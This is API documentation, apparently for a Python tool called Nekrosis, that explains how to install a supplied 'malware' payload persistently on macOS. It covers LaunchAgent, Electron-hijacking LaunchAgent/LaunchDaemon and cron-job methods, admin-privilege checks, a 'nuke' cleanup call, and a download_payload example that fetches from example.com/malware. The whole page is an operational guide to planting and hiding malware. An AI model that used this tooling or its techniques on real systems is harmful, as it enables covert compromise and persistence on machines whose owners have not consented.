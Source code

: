 # Python API Usage

To use Nekrosis in your Python code, you will need to import the `Nekrosis` class from the `nekrosis` module:

::: code-group
```python [Python API]
from nekrosis import Nekrosis
```
:::

Once imported, let's create a basic instance of the `Nekrosis` class:

::: code-group
```python [Python API]
nekrosis = Nekrosis(
  payload="/path/to/malware"
)
```
:::

Here we have a number of functions we can call to interact with the `Nekrosis` class. The main functions of interest are:

| Function | Description |
|:---------|:------------|
| `supported_persistence_methods()` | List currently supported persistence methods. |
| `recommended_persistence_method()` | Return the recommended persistence method. |
| `install()` | Install the payload using the recommended persistence method. |
| `nuke()` | Remove the payload and Nekrosis from the system. |
| `current_privilege_level_str()` | Return the current privilege level as a string. |
| `is_admin()` | Check if the current user is an administrator. |
| `download_payload()` | Download file to temporary directory. |
| `change_payload()` | Change the payload to a new file. Run `reload()` to apply changes. |
| `change_custom_method()` | Change the custom method to a new method. Run `reload()` to apply changes. |
| `reload()` | Reload the Nekrosis instance to apply changes to payload or custom method. |
| `export_persistence_methods()` | Export the persistence methods to a supported format. |

## supported_persistence_methods()

* Description: List currently supported persistence methods.
* Return type: `List[str]`

::: code-group
```python [Python API]
>>> nekrosis.supported_persistence_methods()
['LaunchAgent - Current User', 'LaunchAgent - Electron', 'LaunchDaemon - Electron', 'Cronjob - Current User']
```
:::


## recommended_persistence_method()

* Description: Return the recommended persistence method.
* Return type: `str`

::: code-group
```python [Python API]
>>> nekrosis.recommended_persistence_method()
'LaunchAgent - Electron'
```
:::


## install()

* Description: Install the payload using the recommended persistence method.
* Return type: `None`


::: code-group
```python [Python API]
>>> nekrosis.install()
```
:::

## nuke()

* Description: Remove the payload and Nekrosis from the system.
* Return type: `None`

::: code-group
```python [Python API]
>>> nekrosis.nuke()
```


## current_privilege_level_str()


* Description: Return the current privilege level as a string.
* Return type: `str`

::: code-group
```python [Python API]
>>> nekrosis.current_privilege_level_str()
'Effective User ID: 502'
```
:::


## is_admin()

* Description: Check if the current user is an administrator.
* Return type: `bool`

::: code-group
```python [Python API]
>>> nekrosis.is_admin()
False
```

## download_payload()

* Description: Download file to temporary directory.
* Parameters:
  * `url`: str - The URL to download the payload from.
* Return type: `Bool` - True if the download was successful, False otherwise.

::: code-group
```python [Python API]
>>> nekrosis.download_payload("https://example.com/malware")
True
```

## change_payload()

* Description: Change the payload to a new file. Run `reload()` to apply changes.
* Parameters:
  * `payload`: str - The new payload file path.
* Return type: `None`

::: code-group
```python [Python API]
>>> nekrosis.change_payload("/path/to/new/malware")
```
:::


## change_custom_method()

* Description: Change the custom method to a new method. Run `reload()` to apply changes.
* Parameters:
  * `custom_method`: str - The new custom method.
* Return type: `None`

::: code-group
```python [Python API]
>>> nekrosis.change_custom_method("Cronjob - Current User")
```
:::


## reload()

* Description: Reload the Nekrosis instance to apply changes to payload or custom method.
* Return type: `None`

::: code-group
```python [Python API]
>>> nekrosis.reload()
```

## export_persistence_methods()

* Description: Export the persistence methods to a supported format.
* Parameters:
  * `method`: str - The method to export. Default is PLIST, supports XML and JSON.
* Return type: `str`

::: code-group
```python [Python API]
>>> nekrosis.export_persistence_methods()

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
	<key>persistence_methods</key>
	<array>
		<string>LaunchAgent - Current User</string>
		<string>LaunchAgent - Electron</string>
		<string>LaunchDaemon - Electron</string>
		<string>Cronjob - Current User</string>
	</array>
	<key>recommended_method</key>
	<string>LaunchAgent - Electron</string>
</dict>
</plist>
```
:::

